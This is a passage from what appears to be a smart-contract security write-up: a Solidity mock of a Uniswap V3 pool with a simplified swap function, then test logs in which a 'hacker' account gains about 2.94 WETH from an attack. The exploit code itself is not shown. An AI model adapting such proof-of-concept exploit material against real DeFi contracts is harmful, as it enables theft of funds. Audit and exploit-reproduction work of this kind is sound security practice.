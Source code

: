 ```solidity
}

// write a UNIv3 pool mock with very simple function of swap and mint
contract UniswapV3PoolMock {

    address public token0;
    address public token1;

    constructor(address _token0, address _token1) {
        token0 = _token0;
        token1 = _token1;
    }

    function swap(
        address recipient,
        bool zeroForOne,
        int256 amountSpecified,
        uint160 sqrtPriceLimitX96,
        bytes calldata data
    ) external returns (int256 amount0, int256 amount1) {
        // Perform necessary checks and validations

        // Calculate the amounts of token0 and token1 to swap
        if (!zeroForOne) {
            amount0 = -amountSpecified;
            amount1 = amountSpecified;
        } else {
            amount0 = amountSpecified;
            amount1 = -amountSpecified;
        }
        // Transfer tokens between the pool and the recipient
        if (amount0 > 0) {
            IERC20(token0).transfer(recipient, uint256(amount0));
        } else if (amount1 > 0) {
            IERC20(token1).transfer(recipient, uint256(amount1));
        }



        return (amount0, amount1);
    }
}
```

With the attack result, the attacker will get 2.94 WETH:

```
Logs:
  hacker WETH balance before attack  : 0e0
  hacker WETH balance after attack   : 2.946145314758099342e18
```
